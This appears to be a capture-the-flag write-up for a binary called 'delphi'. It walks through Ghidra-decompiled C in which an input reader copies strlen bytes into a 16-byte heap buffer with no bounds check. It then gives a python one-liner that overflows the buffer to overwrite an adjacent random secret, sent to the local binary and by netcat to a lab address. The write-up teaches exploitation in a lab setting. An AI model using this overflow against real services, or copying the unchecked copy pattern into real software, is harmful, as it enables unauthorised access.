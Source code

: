 # Getting the challenge

The zip file contains a Dockerfile with some files that describes the service. One of the extra files is a binary that is running with a flag.txt placeholder. This is enough to test everything locally. If your environment differs significantly from the docker image, you can extract the libc from it and use it locally.

Upon running the binary, it asks 2 questions.

![](screenshots/1.png)

# Checking the logic

Ghidra can recover the code ([delphi.c](workdir/delphi.c)) relatively well. 

```c
void FUN_00101341(void *param_1)
{
  size_t __n;
  long in_FS_OFFSET;
  char local_518 [1288];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_518,0x500,stdin);
  __n = strlen(local_518);
  memcpy(param_1,local_518,__n);
  // REDACTED
  return;
}

undefined8 FUN_001013bf(void)
{
  // REDACTED
  local_68 = (char *)malloc(0x10);
  local_60 = (char *)malloc(0x20);
  memset(local_60,0,0x20);
  getrandom(local_60,0x20,0);
  for (local_7c = 0; local_7c < 0x20; local_7c = local_7c + 1) {
    if ((local_60[local_7c] == '\0') || (local_60[local_7c] == '\n')) {
      local_60[local_7c] = '*';
    }
  }
  puts("Welcome to the Oracle of Delphi!");
  puts("Hic es forsit ut tuum futurum invenias.\n");
  puts(
      "I will think of something bright and shiny. If you manage to think of the same thing, I will predict your future."
      );
  puts("If not, shall the gods have mercy on your soul.\n");
  printf("What shall I think of (ie What\'s my favorite instrument)? ");
  FUN_00101341(local_68);
  printf("So you asked: ");
  puts(local_68);
  puts("Okay, now that\'s a good one. Let me think...");
  sleep(2);
  printf("Got it. Any clue what it is I had in mind? ");
  fgets(local_48,0x21,stdin);
  iVar1 = strncmp(local_48,local_60,0x20);
  if (iVar1 == 0) {
    puts("Woah... You got it. Interested in a job offer? We have some good java coffee.");
    local_78 = (char *)0x0;
    local_70 = 0;
    tVar2 = time((time_t *)0x0);
    srand((uint)tVar2);
    local_58 = fopen("flag.txt","r");
    if (local_58 == (FILE *)0x0) {
      puts("Error: flag.txt not found. Contact an admin.");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    while (local_50 = getline(&local_78,&local_70,local_58), local_50 != -1) {
      printf("%s",local_78);
    }
    fclose(local_58);
    if (local_78 != (char *)0x0) {
      free(local_78);
    }
  }
  else {
    puts("Nope, that\'s not it. You\'re doomed.");
  }
  // REDACTED
}

```

FUN_00101341 is used to read some input to a large enough buffer, then it copies strlen(buffer) amount into it's parameter deestination. 

FUN_001013bf is presumably the main function, it is allocating 2 buffers (size 0x10 and 0x20) with malloc and randomizing the latter with some filtering. The former is passed to the FUN_00101341 read function to hould our input. A third smaller local buffer is used to read some bytes in the second question, and this value is compared to the random one. Upon successfully guessing the random number, the flag is given out.

# The problem

The reader function is ignoring the destination buffer size and overflow can occur. This can overwrite the random part. 

Pwntools can be used to generate some cyclic strings to easily spot memory patterns.

![](screenshots/2.png)

The program can be stopped on [malloc](https://cplusplus.com/reference/cstdlib/malloc/) and [strncmp](https://cplusplus.com/reference/cstring/strncmp/) to check the memory layout. 

![](screenshots/5.png)

The strncmp parameters will be passed in `$rdi` (guess), `$rsi` (random), `$rdx` (length).

During a normal run, at `$rsi-32` the input string for the first question can be seen, and at `$rsi`, the randomly generated variable.

![](screenshots/3.png)

During a run with overflow, the random is overwritten with the given input.

![](screenshots/4.png)

## Exploit

The allocated heap structure is deterministic, always allocating the same size in the same order.

The first question can overwrite the random with known value and the second question can use the known value. There is no free at all, so corrupting the heap structure is not a problem.

```bash
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | ./delphi
python -c 'print("A"*32+"X"*31+"\n"+"X"*31+"\n")' | nc 10.10.8.10 55364
```

![](screenshots/8.png)

TODO: replace screenshot from live environment

## Flag

TODO: add flag from live env

## Pwndbg

Pwndbg can be used for better experience.

For example more verbose and easier to read outputs.

![](screenshots/6.png)

Heap information.

![](screenshots/7.png)